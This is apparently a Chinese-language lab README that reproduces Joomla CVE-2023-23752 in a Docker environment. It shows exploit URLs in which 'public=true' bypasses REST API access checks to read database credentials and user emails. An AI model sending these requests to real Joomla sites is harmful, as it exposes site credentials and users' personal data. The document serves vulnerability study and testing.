


# Joomla权限绕过漏洞（CVE-2023-23752）

Joomla是一个开源免费的内容管理系统（CMS），基于PHP开发。

在其4.0.0版本到4.2.7版本中，存在一处属性覆盖漏洞，导致攻击者可以通过恶意请求绕过权限检查，访问任意Rest API。

参考链接：

- <https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html>
- <https://xz.aliyun.com/t/12175>
- <https://vulncheck.com/blog/joomla-for-rce>

## 漏洞环境

执行如下命令启动一个Joomla 4.2.7：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`即可查看到Joomla页面。

## 漏洞复现

这个漏洞是由于错误的属性覆盖导致的，攻击者可以通过在访问Rest API时传入参数`public=true`来绕过权限校验。

比如，访问下面这个链接即可读取所有配置项，包括数据库连接用户名和密码：

```
http://your-ip:8080/api/index.php/v1/config/application?public=true
```


如果不添加`public=true`，则访问会被拒绝：



访问下面这个链接即可读取所有用户信息，包含邮箱等：

```
http://your-ip:8080/api/index.php/v1/users?public=true
```


